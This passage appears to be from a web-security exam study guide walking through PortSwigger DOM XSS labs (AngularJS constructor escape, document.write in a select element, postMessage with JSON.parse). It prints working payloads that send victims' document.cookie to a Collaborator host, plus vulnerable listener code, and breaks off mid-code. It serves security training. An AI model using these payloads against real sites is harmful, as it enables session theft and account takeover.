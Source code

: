 ```JavaScript
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```

> **Note:** The session cookie property must not have the **HttpOnly** secure flag set in order for XSS to succeed.

[PortSwigger Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

[z3nsh3ll give an amazingly detail understanding on the constructor vulnerability in this lab on YouTube](https://youtu.be/QpQp2JLn6JA)

#### Doc Write Location search

> The target is vulnerable to DOM-XSS in the stock check function. `source code` reveal `document.write` is the sink used with `location.search` allowing us to add **storeId** query parameter with a value containing the JavaScript payload inside a `<select>` statement.

> Perform a test using below payload to _**identify**_ the injection into the modified GET request, using `">` to escape.

```html
/product?productId=1&storeId=fuzzer"></select>fuzzer
```

> DOM XSS cookie stealer payload in a `document.write` sink using source `location.search` inside a `<select>` element. This can be send to victim via exploit server in `<iframe>`. To test the cookie stealer payload I again on my browser in console added a test POC cookie to test sending it to Collaborator.

```html
"></select><script>document.location='https://COLLABORATOR.com/?domxss='+document.cookie</script>//
```

[PortSwigger Lab: DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

#### DOM XSS JSON.parse web messages

> Target use web messaging and parses the message as JSON. Exploiting the vulnerability by constructing an HTML page on the exploit server that exploits DOM XSS vulnerability and steal victim cookie.

> The vulnerable JavaScript code on the target using event listener that listens for a web message. This event listener expects a **string** that is parsed using **JSON.parse()**. In the JavaScript below, we can see that the event listener expects a **type** property and that the **load-channel** case of the **switch** statement changes the **img src** attribute.

> _**Identify**_ web messages on target that is using **postmessage()** with **DOM Invader**.

```JavaScript
<script>
	window.addEventListener('message', function(e) {
		var img = document.createElement('img'), ACMEplayer = {element: img}, d;
		document.body.appendChild(img);
		try {
			d = JSON.parse(e.data);
		} catch(e) {
			return;
		}
		switch(d.type) {
			case "page-load":
				ACMEplayer.element.scrollIntoView();
				break;
			case "load-channel":
				ACMEplayer.element.src = d.url;
				break;
			case "player-height-changed":
				ACMEplayer.element.style.width = d.width + "px";
				ACMEplayer.element.style.height = d.height + "px";
```